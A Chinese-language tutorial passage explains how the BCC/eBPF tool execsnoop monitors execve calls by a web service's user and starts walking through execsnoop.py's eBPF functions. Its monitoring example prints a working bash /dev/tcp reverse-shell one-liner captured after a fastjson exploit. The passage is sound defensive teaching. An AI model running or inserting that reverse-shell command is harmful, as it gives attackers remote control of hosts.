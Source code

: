 ```
root@debian:~# execsnoop-bpfcc
PCOMM            PID    PPID   RET ARGS
ls               66362  51315    0 /bin/ls --color=auto
```

一个典型的场景是，在Linux主机上运行了Web服务，可能存在漏洞导致远程命令执行，那么如何对Web服务执行命令的行为进行监控呢？这里就可以使用上面提到的execsnoop工具。我们通过`-u`参数，指定对Web服务进程的uid进行过滤，就可以看到该用户所有调用`execve`的情况。

下面的示例，是对搭建了fastjson反序列化漏洞的tomcat用户进行execsnoop监控。攻击者通过反序列化POC获取了反弹shell，并执行了`whoami`命令，相关的调用信息都可以在execsnoop的监控输出看到：

```
root@debian:~# execsnoop-bpfcc -u tomcat
PCOMM            PID    PPID   RET ARGS
bash             68335  68282    0 /bin/bash -c exec 5<>/dev/tcp/192.168.195.1/1888;cat <&5 | while read line; do $line 2>&5 >&5; done
cat              68336  68335    0 /bin/cat
whoami           68338  68337    0 /usr/bin/whoami
```

上面的功能通过其他方式也可以实现，但这里使用BCC/eBPF的方式具有以下优点：

- 应用层无感，无需重启Web服务，可在运行时随时启动或退出监控（直接`Ctrl-C`停止execsnoop即退出）
- 在内核`execve`系统调用处进行记录，即使进行bash命令混淆，还是可以看到最终执行的真实命令

### execsnoop的实现

接下来，我们通过[execsnoop的代码](https://github.com/iovisor/bcc/blob/master/tools/execsnoop.py)，来理解BCC是如何通过eBPF进行工作的。

BCC将许多功能通过Python进行了封装，因此execsnoop其实是一个Python脚本，其中最重要的就是eBPF程序代码：

```python
# define BPF program

bpf_text = """
#include <uapi/linux/ptrace.h>
```

eBPF程序是用C编写的，这里将其以字符串格式保存在Python脚本中，核心是这两个函数：

```c
int syscall__execve(struct pt_regs *ctx,
    const char __user *filename,
    const char __user *const __user *__argv,
    const char __user *const __user *__envp)
```

```c
int do_ret_sys_execve(struct pt_regs *ctx)
```

这两个函数的逻辑也比较清晰：

- `syscall__execve`，获取进程的uid，pid，ppid，执行的命令（comm），**命令参数**。将这些信息填入结构体`data_t`，并最终通过`events.perf_submit`进行提交。值得注意的是，每个参数是单独提交的，而不是把所有信息汇总后统一提交。
- `do_ret_sys_execve`，获取进程的uid，pid，ppid，执行的命令（comm），**返回结果**。将这些信息填入结构体`data_t`，并通过`events.perf_submit`进行提交.
